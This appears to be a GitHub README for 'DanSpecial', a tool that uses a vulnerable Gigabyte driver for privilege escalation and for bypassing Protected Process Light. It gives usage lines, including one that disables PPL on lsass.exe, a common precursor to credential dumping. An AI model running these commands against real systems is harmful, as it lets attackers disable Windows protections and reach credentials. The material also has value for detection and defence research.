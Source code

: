 # DanSpecial
Weaponizing Gigabyte driver for priv escalation and bypass PPL

====== DanSpecial ======

[-] Not enough arguments.

[-] Args: "DanSpecial.exe [1 or 0, 1 to load the driver, 0 to not load driver] [0 1 or 2, 0 for disable PPL, 1 for enable PPL, 2 for privesc] [process name.exe]"

[-] Example: "DanSpecial.exe 1 0 lsass.exe"    -- Will load the driver (requiresadmin) and disable PPL on lsass.exe

[-] Example: "DanSpecial.exe 0 1 firefox.exe"    -- Will not load the driver (assuming driver is already loaded) and enable PPL on firefox.exe

[-] Example: "DanSpecial.exe 0 2 firefox.exe"    -- Will not load the driver (assuming driver is already loaded) and make firefox.exe an NT Authority process.

